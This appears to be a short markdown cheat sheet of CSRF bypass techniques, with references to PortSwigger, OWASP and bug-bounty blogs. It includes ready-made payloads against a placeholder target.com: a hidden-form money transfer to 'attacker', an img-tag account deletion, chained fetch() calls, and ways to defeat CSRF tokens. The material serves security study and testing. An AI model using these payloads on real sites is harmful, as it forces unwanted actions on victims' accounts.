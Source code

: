 # CSRF Bypass Techniques
## Content-Type Bypass
Some backends only check for application/x-www-form-urlencoded:
```
Content-Type: text/plain
```
OR
```
Content-Type: application/json
```
→ May bypass filters if not validating content type strictly.
## CORS Misconfiguration + CSRF
If target uses Access-Control-Allow-Origin: * with cookies:

* Can trigger CSRF via fetch() or XMLHttpRequest.
* Especially dangerous if credentials included (credentials: include).

  ## Missing SameSite Cookies
  If cookies are set without SameSite=Strict or Lax:
  ```
  Set-Cookie: session=abc123; Path=/;
  ```
→ CSRF is possible via normal <form> or JS requests.
## Custom Headers Not Required

If the app does not check for Origin / Referer:
 * Basic HTML forms can exploit CSRF easily:
 ```
   <form action="https://target.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit">
</form>
```
## GET-Based Actions
* If critical actions (like logout, delete, change email) use GET requests:
```
<img src="https://target.com/delete-account"> 
```
## Cache Poisoning with CSRF
* Poison cache via crafted request
* Victim loads poisoned response, triggers CSRF passively

## Multi-Step CSRF

* If action requires multiple steps (token, confirm), automate them:
```
fetch('https://target.com/init')
  .then(() => fetch('https://target.com/confirm'));
```
## Bypassing Token-Based Protections

If CSRF tokens are:

* Predictable
* Leaked
* Replace with Null
* Delete the Token
* Reused
* Not tied to user session

Example: csrf_token=12345
→ Replay the same token across users

## Open Redirect + CSRF
If there's an open redirect:

* Lure user to a CSRF-hosting page that redirects to action
* Helps bypass referrer checks

References:
https://portswigger.net/web-security/csrf/
https://owasp.org/www-community/attacks/csrf
https://www.cobalt.io/blog/csrf-bypasses
https://bugbase.ai/blog/how-to-bypass-csrf-protection
https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
https://johnermac.github.io/notes/ewptx/csrf/
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

